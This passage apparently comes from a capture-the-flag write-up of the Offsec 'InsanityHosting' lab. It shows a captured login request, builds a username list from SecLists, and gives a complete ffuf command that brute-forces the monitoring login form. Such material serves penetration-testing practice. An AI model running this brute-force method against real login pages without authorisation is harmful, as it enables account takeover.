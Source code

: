 > `login.req`

```http
POST /monitoring/index.php HTTP/1.1
Host: insanityhosting.vm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: http://insanityhosting.vm
Connection: close
Referer: http://insanityhosting.vm/monitoring/login.php
Cookie: PHPSESSID=58bl1iu6nl7pqe5vtfqh4p7g43
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

username=FUZZ1&password=FUZZ2
```

> Remember to remove session cookie from request file, because some web app won't assign new cookie but authorizes the current cookie instead
{: .prompt-tip }

Remove cookie header

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ sed -i '/Cookie:/d' login.req
```

Merge `top-usernames list from seclists` with the discovered usernames

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ cat users_80.txt
otis
hello

┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ cat users_80.txt /usr/share/seclists/Usernames/top-usernames-shortlist.txt > users.txt
```

Brute force weak credentials

```bash
ffuf -c --request-proto http -request login.req -w users.txt:FUZZ1 -w /usr/share/set/src/fasttrack/wordlist.txt:FUZZ2 -fr 'Location: login.php'
```

![](/assets/obsidian/ee67634ae5d1020a6ffa1edaf707c954.png)
